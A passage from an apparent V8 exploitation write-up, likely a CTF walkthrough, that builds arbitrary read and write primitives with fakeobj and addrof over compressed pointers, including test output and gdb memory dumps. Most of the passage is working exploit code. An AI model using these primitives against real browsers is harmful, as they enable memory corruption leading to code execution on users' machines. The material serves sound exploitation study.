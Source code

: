 We can test the arbitrary read, and I'm going to do this by grabbing the `float_map` location and reading the data there:

```javascript
// test arb_read
let float_map_lower = ftoi(float_map) & 0xffffffffn
console.log("Map at: 0x" + float_map_lower.toString(16))
console.log("Read: 0x" + arb_read(float_map_lower).toString(16));
```

```javascript
Map at: 0x82439f1
Read: 0xa0007ff2100043d
```

A little bit of inspection at the location of `float_map` shows us we're 8 bytes off:

```javascript
gef➤  x/10gx 0x3f09082439f1-1
0x3f09082439f0:	0x1604040408042119	0x0a0007ff2100043d
0x3f0908243a00:	0x082439c90820ab61	0x080421b90820b031
0x3f0908243a10:	0x0820b07d08182405	0x1604040408042119
```

This is because the first 8 bytes in the `elements` array are for the `length` smi and then for a compressed map pointer, so we just subtract if `8` and get a valid `arb_read()`:

```javascript
function arb_read(compressed_addr) {
    // tag pointer
    if (compressed_addr % 2n == 0)
        compressed_addr += 1n;

    // place a fake object over the elements of the valid array
    // we know the elements array is placed just ahead in memory, so with a length
    // of 4 it's an offset of 4 * 0x8 = 0x20
    let fake = fakeobj(addrof(arb_rw_arr) - 0x20n);

    // overwrite `elements` field of fake array
    // size of 2 and elements pointer
    // initially with the map and a size smi, so 0x8 offset
    arb_rw_arr[1] = itof((0x2n << 33n) + compressed_addr - 8n);

    // index 0 will returns the arbitrary read value
    return ftoi(fake[0]);
}
```

## Arbitrary Write

### Initial

We can continue with the `initial_arb_write()` from oob-v8, with a couple of minor changes:

```javascript
function initial_arb_write(compressed_addr, val) {
    // place a fake object and change elements, as before
    let fake = fakeobj(addrof(arb_rw_arr) - 0x20n);
    arb_rw_arr[1] = itof((0x2n << 33n) + compressed_addr - 8n);

    // Write to index 0
    fake[0] = itof(BigInt(val));
}
```

